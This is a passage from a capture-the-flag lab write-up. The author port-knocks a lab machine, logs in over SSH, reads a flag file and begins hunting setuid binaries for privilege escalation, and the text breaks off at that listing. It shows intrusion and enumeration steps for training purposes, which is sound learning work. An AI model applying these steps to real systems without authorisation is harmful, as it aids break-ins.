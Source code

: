 ```bash
$ knock 10.10.213.66 8748 9893 6786 3443 && ssh jerry@10.10.213.66
jerry@10.10.213.66's password: 
Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 4.4.0-1072-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  Get cloud support with Ubuntu Advantage Cloud Guest:
    http://www.ubuntu.com/business/services/cloud

73 packages can be updated.
48 updates are security updates.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sat Feb 23 22:17:39 2019 from 10.0.0.20
jerry@ip-10-10-213-66:~$ 
```

We're in, so let's find another flag.

```bash
jerry@ip-10-10-213-66:/home$ find / -name "flag3" 2>/dev/null
/home/flag3
jerry@ip-10-10-213-66:/home$ cat /home/flag3 
dd059316033c59f00057e5552140f831
```

- __FLAG3: dd059316033c59f00057e5552140f831__

Okey, that was pretty easy, but for the last one flag we will need the root priviledges.
So how to find vulnerability to gain the root priviledges? Let's search some binaries with
[setuid bit flag](https://linuxconfig.org/how-to-use-special-permissions-the-setuid-setgid-and-sticky-bits).

```bash
jerry@ip-10-10-140-162:/etc$ find / -perm -u=s -type f 2>/dev/null
/snap/core/5742/bin/mount                                
/snap/core/5742/bin/ping
/snap/core/5742/bin/ping6
/snap/core/5742/bin/su
/snap/core/5742/bin/umount
/snap/core/5742/usr/bin/chfn 
/snap/core/5742/usr/bin/chsh 
/snap/core/5742/usr/bin/gpasswd
/snap/core/5742/usr/bin/newgrp
...
/bin/umount
/bin/fusermount
/bin/ntfs-3g
```